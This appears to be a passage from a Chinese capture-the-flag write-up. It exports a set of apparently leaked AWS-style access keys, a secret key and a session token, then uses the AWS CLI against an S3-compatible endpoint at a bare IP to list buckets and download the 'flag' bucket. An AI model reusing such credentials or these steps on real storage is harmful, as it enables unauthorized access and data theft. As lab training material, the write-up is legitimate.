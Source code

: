 利用AWS CLI

```plain
export AWS_ACCESS_KEY_ID=F3BZ2MHNQYP7T4ZLFGG1
export AWS_SECRET_ACCESS_KEY=NF39mk0QsXRhzs5kfq1fUIF2bvrVU3HUoROqOIOO
export AWS_SESSION_TOKEN="eyJhbGciOiJIUzUxMiIsInR5cCI6IkpXVCJ9.eyJhY2Nlc3NLZXkiOiJGM0JaMk1ITlFZUDdUNFpMRkdHMSIsImV4cCI6MTc0ODYyMzk0NCwicGFyZW50IjoiQjlNMzIwUVhIRDM4V1VSMk1JWTMiLCJzZXNzaW9uUG9saWN5IjoiZXlKV1pYSnphVzl1SWpvaU1qQXhNaTF4TUMweE55SXNJbE4wWVhSbGJXVnVkQ0k2VzNzaVJXWm1aV04wSWpvaVFXeHNiM2NpTENKQlkzUnBiMjRpT2xzaWN6TTZLaUpkTENKU1pYTnZkWEpqWlNJNld5SmhjbTQ2WVhkek9uTXpPam82S2lKZGZWMTkifQ.NXmVD94r6yY3Gb1QA1GqS0IrErLnHIkHvb_My9xPiqJLMFBCDtXY2wcFeghTtpBc3ABNa3z5ZfbioVXF7yVpWw"export AWS_DEFAULT_REGION=us-east-1
```

然后执行

```plain
aws s3 ls --endpoint-url http://35.220.136.70:32105
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1749635672994-9a1b7419-97c3-47af-b8f2-a12ed8e50f47.png)

```plain
root@VM-0-9-ubuntu:/home/ubuntu# aws s3 sync s3://flag ./flag_downloaded --endpoint-url http://35.220.136.70:32105
download: s3://flag/flag to flag_downloaded/flag
```

下载下来

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1749635673064-06c56a04-1c4f-43fc-b2e2-6bf62fa6e82b.png)

得到flag

